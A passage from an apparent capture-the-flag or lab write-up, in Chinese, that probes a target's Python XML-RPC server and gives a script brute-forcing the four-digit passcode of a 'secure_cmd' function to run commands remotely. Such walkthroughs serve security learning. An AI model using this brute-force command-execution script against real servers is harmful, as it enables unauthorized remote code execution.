 没有发现任何可用信息，并且响应的数据包也看不懂

重新回到代码，查看关于 SimpleXMLRPCServer 的相关介绍：[xmlrpc.client — XML-RPC client access — Python 3.10.7 documentation](https://docs.python.org/3/library/xmlrpc.client.html)，`SimpleXMLRPCServer`模块为使用 Python 编写的 XML-RPC 服务器提供了一个基本的服务器框架，直接查看链接，里面有清晰的示例，照着示例编写客户端的测试代码：

测试代码 1：

```bash
import xmlrpc.client

proxy = xmlrpc.client.ServerProxy("http://192.168.56.104:8000")
print(proxy.net())
```

[![](assets/1699406763-fa3ee59a532ce08052062a93edc5ffb3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231107104134-2abd16b4-7d17-1.png)

成功将代码中的 net 函数所执行的结果返回到本地，net 函数功能是将靶机的 ip 信息返回。

查看代码中存在一个函数`secure_cmd`，包含两个参数，第一个参数为命令，第二个参数相当于密码，在代码`debugging_pass = random.randint(1000,9999)`随机设置了一个密码，当我们传递的参数等于这个密码时，传入的命令就能够得到执行，这里可以爆破这个密码：

测试代码 2：

```bash
import xmlrpc.client

with xmlrpc.client.ServerProxy("http://192.168.56.104:8000") as proxy:
    for i in range(1000,9999):
        message = proxy.secure_cmd("whoami",i)
        if message != "Wrong passcode.":
            print("cmd result:",message)
            print("Right passcode is:",i)
            break
        else:
            continue
```

[![](assets/1699406763-c7067b903d2ac6461cc3dae4665c227c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231107104155-370cd12a-7d17-1.png)

